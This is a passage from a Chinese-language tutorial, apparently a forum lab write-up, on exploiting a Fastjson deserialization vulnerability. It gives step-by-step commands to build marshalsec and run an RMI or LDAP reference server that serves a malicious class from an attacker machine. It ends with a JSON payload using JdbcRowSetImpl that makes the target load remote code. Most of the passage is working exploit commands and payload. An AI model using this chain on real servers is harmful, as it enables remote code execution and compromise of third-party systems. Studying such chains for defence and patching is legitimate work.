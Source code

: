 ![image-20210805104207532](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-dbb3f18e7d086e40cb97afa0389a9fe746dbb828.png)

##### 编译并开启RMI服务:

###### &gt;1 下载marshalsec(我这里已经安装好）：

```php
git clone https://github.com/mbechler/marshalsec.git
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a35825d459eaf3c47fa4414d45213302910cebe3.png)

###### &gt;2 然后安装maven：

```php
apt-get install maven
```

![image-20210805105045684](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3595b641af6228784cd528ed81304f9b405cea27.png)

###### &gt;3 然后使用maven编译marshalsec成jar包，我们先进入下载的marshalsec文件中运行：

```php
mvn clean package -DskipTests
```

![image-20210805120544313](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-50ce246ebd6fb15efe14bc9d7d5129b87622071d.png)

![image-20210805121146678](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-765e54571d08a5a4fd7615a350f097e0c082cba9.png)

###### &gt;4 然后我们借助marshalsec项目，启动一个RMI服务器，监听9999端口，这里的ip为你上面开启http服务的ip，我们这里就是kali的ip:

```php
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.10.65/#zcc" 9999
```

###### 这里如果要启动LDAP服务的话，只需把上面命令中的RMI改成LDAP即可，例如：

```php
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.10.65/#zcc" 9999
```

![image-20210805121711259](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-85d655ff780551f08c3f4e5e969055cd11e86c57.png)

###### 可以看见请求成功，并加载了恶意类。

###### &gt;5 使用BP抓包，并写入poc(记住请求包里面请求方式改成post，Content-Type改成application/json)：

```php
{
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.10.65:9999/zcc",
 "autoCommit":true
 }
}
```
